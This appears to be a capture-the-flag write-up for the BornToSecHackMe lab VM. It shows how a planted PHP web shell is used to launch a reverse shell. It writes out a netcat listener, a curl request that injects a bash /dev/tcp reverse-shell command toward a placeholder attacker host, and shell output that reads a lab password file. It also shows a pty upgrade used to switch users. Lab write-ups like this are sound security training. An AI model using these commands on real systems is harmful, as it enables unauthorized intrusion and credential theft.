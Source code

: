 # reverse shell

Because we have written php code in the file `/var/www/forum/templates_c/cmd.php` to execute any strings in the `cmd` parameter.  
We can obtain shell without using ssh method.  

## How to create a reverse shell ?

We must use our `attacker machine` to listen on one `port`.

```bash
nc -lvp PORT
```

Then the reverse shell command must be sent. In this example we have used `curl`: 

```bash
curl --insecure --get https://Boot2rootIP/forum/templates_c/cmd.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/AttackerIP/Port 0>&1'"
```

We have our reverse shell and we can explore the machine.

```bash
$nc -lvp 4444
listening on [any] 4444 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.113] from (UNKNOWN) [192.168.56.101] 59423
bash: no job control in this shell
www-data@BornToSecHackMe:/var/www/forum/templates_c$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@BornToSecHackMe:/home$ cat /home/LOOKATME/password
cat /home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```

Now we have a shell access we can try to login with `lmezard`. We have a problem and to solve it we must to execute a shell using `TTY` mode (to create an `interactive shell`):
```bash
www-data@BornToSecHackMe:/var/www/forum/templates_c$ su lmezard
su lmezard
su: must be run from a terminal
www-data@BornToSecHackMe:/var/www/forum/templates_c$ python -c 'import pty; pty.spawn("/bin/bash")'
<ar/www/forum/templates_c$ python -c 'import pty; pty.spawn("/bin/bash")'    
www-data@BornToSecHackMe:/var/www/forum/templates_c$ su laurie
su laurie
Password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```
